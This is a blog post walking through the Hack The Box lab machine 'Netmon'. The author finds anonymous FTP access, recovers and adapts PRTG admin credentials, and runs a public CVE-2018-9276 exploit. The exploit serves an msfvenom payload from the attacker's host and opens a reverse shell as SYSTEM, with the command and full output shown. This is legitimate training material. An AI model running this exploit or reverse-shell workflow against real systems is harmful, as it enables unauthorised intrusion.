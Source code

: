 ```yaml
---
layout: post
title:  "HTB: Netmon"
date:   2021-03-06 21:00:00 +1100
category: hacking
---
```


## Netmon
In terms of pwns it goes Devel > OpenAdmin > Netmon but I've already done OpenAdmin so this is Netmon. Looking at the IP it's fairly high (10.10.10.152), I reckon it is from not long before I joined HTB. I've never tried it before.

## Ports
There are lots of ports:

1. 21/tcp    open  ftp
2. 80/tcp    open  http
3. 135/tcp   open  msrpc
4. 139/tcp   open  netbios-ssn
5. 445/tcp   open  microsoft-ds
6. 5985/tcp  open  wsman
7. 47001/tcp open  winrm
8. 49664/tcp open  unknown
9. 49665/tcp open  unknown
10. 49666/tcp open  unknown
11. 49667/tcp open  unknown
12. 49668/tcp open  unknown
13. 49669/tcp open  unknown

I run detail scans against everything below 49664; the main pertinent points are anonymous FTP access and *PRTG Network Monitor* on port 80. Network Monitor; obviously where the name comes from.

## FTP
We can login to FTP and we get access to the entire filesystem, although we can't read *everything*. We do get the user flag here though, which must be the most trivial HTB user flag ever. 

Some [research](https://www.exploit-db.com/exploits/46527) reveals we have an authenticated RCE for *PRTG Network Monitor* but the default credentials (prtgadmin/prtgadmin) aren't working. Presumably then we need to find some creds via this FTP connection.

## Creds
We do find some relevant files:

>PRTG Configuration.dat

This contains passwords, but they are encrypted and we don't have the ability to decrypt them. We also find:

>PRTG Configuration.old.bak

This contains some plaintext credentials: 

>prtgadmin:PrTg@dmin2018

However this doesn't work either. Hmmmm. This box was worked on in 2019 - what if we try **PrTg@dmin2019**? Bingo!

Now for the exploit. I try the script from exploitdb but it doesn't seem to work; I may have done something wrong. I find another one on [github](https://github.com/wildkindcc/CVE-2018-9276), but it's written for python2 and wants the python2 version of impacket. We can get those:

{% highlight shell %}
┌──(root💀kali)-[/tmp]
└─# wget https://bootstrap.pypa.io/2.7/get-pip.py                                                                                                  
--2021-03-06 05:12:02--  https://bootstrap.pypa.io/2.7/get-pip.py
Resolving bootstrap.pypa.io (bootstrap.pypa.io)... 151.101.80.175, 2a04:4e42:13::175
Connecting to bootstrap.pypa.io (bootstrap.pypa.io)|151.101.80.175|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1908226 (1.8M) [text/x-python]
Saving to: ‘get-pip.py
┌──(root💀kali)-[/tmp]
└─# pip2 --version
pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)
# we need to upgrade setuptools or it won't work
┌──(root💀kali)-[/tmp]
└─# pip2 install --upgrade setuptools 
# etc etc
┌──(root💀kali)-[/tmp]
└─# pip2 install impacket  
# etc etc
{% endhighlight %}

Now we can run the exploit:

``
python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.14.2 --lport 443 --user prtgadmin --password PrTg%40dmin2019
``

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/netmon/exploit/CVE-2018-9276]
└─# python CVE-2018-9276.py -i 10.10.10.152 -p 80 --lhost 10.10.14.2 --lport 443 --user prtgadmin --password PrTg%40dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg%40dmin2019]
[+] Session obtained for [prtgadmin:PrTg%40dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg%40dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.14.2 LPORT=443 OUTPUT=/tmp/iyapbdvy.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.14.2\GBTBTONH]
[+] Session obtained for [prtgadmin:PrTg%40dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg%40dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.14.2:443 for the reverse shell!]
listening on [any] 443 ...
[*] Incoming connection (10.10.10.152,49735)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.152] 49740
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>[*] Disconnecting Share(1:IPC$)
whoami
whoami
nt authority\system

C:\Windows\system32>
{% endhighlight %}
	
Win. Next is Bashed; that's for tomorrow.

